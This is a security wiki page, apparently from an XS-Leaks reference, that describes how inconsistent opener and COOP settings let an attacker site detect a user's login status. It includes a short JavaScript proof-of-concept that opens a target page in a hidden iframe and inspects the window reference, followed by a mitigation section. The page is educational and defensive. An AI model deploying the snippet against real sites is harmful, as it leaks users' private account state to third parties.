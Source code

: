 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) depending on users' login status, it becomes possible to detect user's current status. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply checking its window reference.

## Code Snippet
The below snippet demonstrates the attack where the target page is supposedly only accessible to authenticated users and is setting its `opener` property to null (or is using COOP with value other than `unsafe-none`):

```javascript
const url = 'https://example.org/profile';

const exploit = url => {
  document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks" style="height:700px;width:100%;display:none">');
  const win = open(url, 'xsleaks');
  setTimeout(() => {
    if(!win) console.log('User\'s logged in- reference not defined');
  }, 2000);
}
exploit(url);
```
In case the page is not framable (or uses SameSite cookies), we can instead open the page in a new tab (`target="_blank"`) and achieve the same.

## Defense

The mitigation of this XS-Leak is to be consistent everywhere- set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
